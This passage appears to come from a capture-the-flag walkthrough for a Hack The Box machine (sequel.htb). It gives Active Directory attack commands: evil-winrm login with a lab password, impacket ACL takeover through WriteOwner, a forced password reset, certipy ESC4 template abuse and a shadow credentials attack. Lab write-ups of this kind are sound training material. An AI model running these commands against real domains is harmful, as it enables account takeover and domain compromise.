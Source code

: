 ![image.png](image%2020.png)

```bash
evil-winrm -i $IP -u ryan -p 'WqSZAF6CysDQbGb3’
```

We have `WriteOwner` privileges over `cs_svc` user:

![image.png](image%2021.png)

We will make us a new owner of the object then grant ourselves `FullControll` and then change its password.

```bash
impacket-owneredit -action write -new-owner 'ryan' -target-dn 'CN=CERTIFICATION AUTHORITY,CN=USERS,DC=SEQUEL,DC=HTB' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip $IP
```

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target-dn 'CN=CERTIFICATION AUTHORITY,CN=USERS,DC=SEQUEL,DC=HTB' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip $IP
```

Change password:

```bash
net rpc password ca_svc 'Password1234' -U sequel.htb/ryan%'WqSZAF6CysDQbGb3' -S $IP
```

![image.png](image%2022.png)

## Owned ca_svc

ca_svc service account is a member of `Cert Publishers` domain group. Group is the "Cert Publishers" built-in group whose members usually are the servers where AD CS is installed (i.e. PKI/CA).

Running certipy I see that target os vulnerable to `ESC4` vulnerability:

```bash
certipy-ad find -u 'ca_svc@sequel.htb' -p 'Password1234' -dc-ip $IP  -vulnerable -stdout
```

![image.png](image%2023.png)

[adcs-esc4-vulnerable-certificate-template-access-control](https://www.hackingarticles.in/adcs-esc4-vulnerable-certificate-template-access-control/)

```bash
certipy-ad template -u ca_svc -p Password1234 -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -target dc01.sequel.htb -save-old
```

I was trying to perform this attack with password but kept failing, I understood that in case of `writeowner` permission better to obtained object’s hash which is set already in original setup, without changing anything, that’s why I used `Shadow Credentials` attack to obtained `NTLM` hash of `ca_svc` user.

```bash
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
```
